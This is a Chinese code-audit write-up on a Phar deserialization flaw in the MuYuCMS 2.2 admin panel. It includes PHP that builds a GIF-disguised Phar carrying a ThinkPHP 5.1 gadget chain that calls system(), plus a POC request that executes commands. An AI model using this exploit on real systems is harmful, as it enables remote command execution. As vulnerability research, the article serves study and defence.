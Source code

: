 

# 奇安信攻防社区 -【PHP 代码审计】站点中的 Phar 反序列化漏洞

### 【PHP 代码审计】站点中的 Phar 反序列化漏洞

Unserialize 函数的使用很少见，而 Session 反序列化可控条件又比较苛刻。这次就和大家分享最后一种 Phar 伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

# 【PHP 代码审计】站点中的 Phar 反序列化漏洞

## 前言

PHP 反序列化漏洞，如果按照反序列化入口区分，可以分为三类：

-   调用 Unserialize 函数进行反序列化
-   利用 Session 处理中进行的反序列化操作
-   通过 Phar 伪协议进行反序列化

Unserialize 函数的使用很少见，而 Session 反序列化可控条件又比较苛刻。这次就和大家分享最后一种 Phar 伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

## 了解 Phar

可以认为 Phar 是 PHP 的压缩文档。从`PHP 5.3`开始，引入了类似于 JAR 的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP 就可以进行访问并执行内部语句。  
关于 Phar 文件结构等其他前置知识就不重点展开，感兴趣的师傅可以参考文章：\[phar 反序列化学习笔记\]([https://pankas.top/2022/04/28/](https://pankas.top/2022/04/28/) phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

## 反序列化触发方式

Phar 之所以能触发反序列化，是因为 Phar 文件会以序列化的形式存储用户自定义的`meta-data`。而 PHP 在解析 meta 数据时，会调用`php_var_unserialize`进行反序列化操作。因此，可以代替`unserialize`函数作为反序列化漏洞的入口。  
常见的可以触发 Phar 反序列化的 PHP 文件系统函数如下：  
![image.png](assets/1705049596-ffcb8bc758c936df41b0764ba88fe79b.jpg)  
当 PHP 文件系统函数中的传递文件地址的参数可控时，构造合适的利用链，就能无需`unserialize`函数，进行反序列化命令执行。

## 生成 Phar 文件的 tips

PHP 在识别 Phar 文件时，是通过其文件头部标识`__HALT_COMPILER();?>`，并且对头部标识前面的内容或后缀名没有严格要求的。  
因此可以通过添加任意的文件头并修改 Phar 文件后缀名的方式，将 Phar 文件伪装成其他格式的文件，从而绕过上传点限制。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置 stub，增加 gif 文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义 meta-data 存入 manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

## 案例漏洞分析

在[MuYuCMS2.2](https://github.com/MuYuCMS/MuYuCMS)中存在后台的 Phar 反序列化漏洞

### 寻找触发点

\*\*Phar 反序列化触发点寻找目标：\*\*找到一个参数可控的受影响的文件系统函数。  
以`is_dir`函数为例，其他受影响的文件系统函数原理相同，就不一一列举。  
使用全局文件搜索功能搜索`is_dir`函数，最终在 Template.php 中发现疑似存在参数可控的情况。  
![image.png](assets/1705049596-40988a737768208eb39bccc047d1981b.jpg)  
搜索关键字`cutformadd`寻找方法的触发位置，找到 html 模板中存在`admin/Template/cutformadd`的路径。  
![image.png](assets/1705049596-9f5494b5bd0696ab206a54a9390ee58c.jpg)  
因此，猜测 Template.php 功能就是调用模板 html 并在浏览器访问时渲染出来。看了一下该模板 html 内容，发现是在`管理自定义页面`的功能中。火速登录后台找到该位置，提交数据并抓包验证。  
![image.png](assets/1705049596-ee52c50cb616319551386c18778275e6.jpg)  
成功触发该方法，并且可以看到 path 确实可控无过滤。  
![image.png](assets/1705049596-550dc85d7ee80ffe9b88de87a4866db8.jpg)  
可是光有反序列化触发点还是无法证明存在反序列化漏洞，还需要配合利用链才完整。奈何实力不允许，无法手搓链子，只能找找现成的。

### 寻找利用链

[MuYuCMS 源码](https://github.com/MuYuCMS/MuYuCMS)中描述：MuYuCMS 基于 ThinkPHP5.1 开发的一套轻量级开源内容管理系统。  
![image.png](assets/1705049596-2545103ee3036c6f85368b32924164bd.jpg)  
社区中正好看到有关于这个版本链子分析：[ThinkPHP5.1 反序列化漏洞实现 rce](https://forum.butian.net/share/2307)  
阅读后，收获蛮多，感兴趣的师傅可以研读一下。  
这里就只用站在巨人的肩膀上，小小改动一下文章中的 exp。在链子中加入一个主命名空间，并在其中添加生成 Phar 文件的代码，`TestObject`需要替换成链子中的入口类`Windows`

```php
<?php
namespace think{
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["l1_Tuer"=>["123"]];
            $this->data = ["l1_Tuer"=>new Request()];
        }
    }

    class Request{
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            'var_ajax'         => '_ajax',  
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\process\pipes{
    use think\model\concern\Conversion;
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct(){
            $this->files=[new Pivot()];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    use think\process\pipes\Windows;
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置 stub，增加 gif 文件头
    $o = new Windows();
    $phar->setMetadata($o); //将自定义 meta-data 存入 manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo (base64_encode(serialize(new Windows())));
}
?>
```

引用文章中的分析：`$this->$config = ['var_ajax'=>'',];`如果设置为空，那我们 get 传入的变量名可以为任意值。但是定义了之后，get 传入的变量名就只能是我们定义的变量名。比如使用`$this->$config = ['var_ajax'=>'cmd',];`，则 get 需要传递`cmd=xxxx`。

在生成 Phar 文件前需要**将 php.ini 中的 phar.readonly 选项设置为 Off**，否则无法生成 phar 文件。  
![image.png](assets/1705049596-42c7be78325743a4d53dbf629b755f4b.jpg)  
配置好 php.ini 后，在 cmd 中用命令执行上面的 poc.php 就行了。

> php.exe poc.php

![image.png](assets/1705049596-846264692333caf4f7525bab31356da9.jpg)  
修改文件后缀名  
![image.png](assets/1705049596-270f3868af00da7208dad2649e2b1499.jpg)

### 触发反序列化漏洞

登录后台，找任意的图片上传点，上传图片，记录返回的文件路径（后台中提供的文件上传位置很多，这里仅举例其中之一）。  
![image.png](assets/1705049596-22c96d23c50fc4f748970a4e5c1a90e7.jpg)  
构造漏洞数据包，给 path 参数赋值为上传的 Phar 文件的相对路径，添加 Phar 伪协议头。`path=phar://./public/upload/images/65564c2937556.jpg` ，使用 get 传递`cmd=xxxx`。  
![image.png](assets/1705049596-80cfe0c03d731941d576116569d9583f.jpg)

poc:

```php
POST /admin.php/template/cutformadd?cmd=type%20c:\\windows\win.ini HTTP/1.1
Host: my.localhost:83
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=c570jgocjo468i6pvk3ivgicm2; first=1700160858
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 160

finame=%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E6%B5%8B%E8%AF%95&fielname=gywm.html&path=phar://./public/upload/images/65564c2937556.jpg&content=666
```

## 总结

分享完毕，师傅们在白盒挖掘漏洞时，如果遇到实在无法绕过的受限上传点，不妨试试换个思路挖掘 Phar 反序列化漏洞。  
受影响的文件系统函数一般还是很容易找到的，存在的难点可能就是找到合适的利用链。当站点使用的常见框架，可以试试公开的利用链；对于未使用框架的站点，实力允许的师傅可以手搓链子来利用。
